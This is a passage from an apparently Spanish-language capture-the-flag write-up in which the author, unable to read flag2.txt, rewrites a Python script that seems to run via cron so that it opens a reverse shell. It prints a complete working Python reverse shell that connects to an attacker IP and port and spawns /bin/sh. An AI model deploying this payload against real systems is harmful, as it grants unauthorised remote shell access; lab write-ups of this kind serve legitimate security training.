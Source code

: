 Hicimos un intento de modificar el script de Python para acceder a `flag2.txt`, pero actualmente no tenemos los permisos necesarios para el directorio `/tmp/test`.

<figure><img src="../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

Sin embargo, dado que podemos ejecutar el script con éxito, procederemos a intentar una shell reversa en Python.

```python
# -*- coding: utf-8 -*-

import socket
import subprocess
import os

# IP de tu máquina atacante
ATTACKER_IP = "192.168.1.58"
# Puerto en el que tu máquina atacante está escuchando
ATTACKER_PORT = 1234

# Crea un socket para la conexión
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# Conéctate a la IP y puerto del servidor atacante
s.connect((ATTACKER_IP, ATTACKER_PORT))

# Redirige las entradas y salidas estándar del proceso a través del socket
os.dup2(s.fileno(), 0)
os.dup2(s.fileno(), 1)
os.dup2(s.fileno(), 2)

# Llama a /bin/sh para abrir una shell interactiva
subprocess.call(["/bin/sh", "-i"])
```

<figure><img src="../../.gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

El script se ejecutó con éxito, pero solo obtuvimos conexiones como el usuario `mamadou`. Es posible que el script se ejecute automáticamente como un trabajo cron bajo el usuario `devops`. Vamos a esperar un breve periodo de tiempo mientras escuchamos las conexiones.
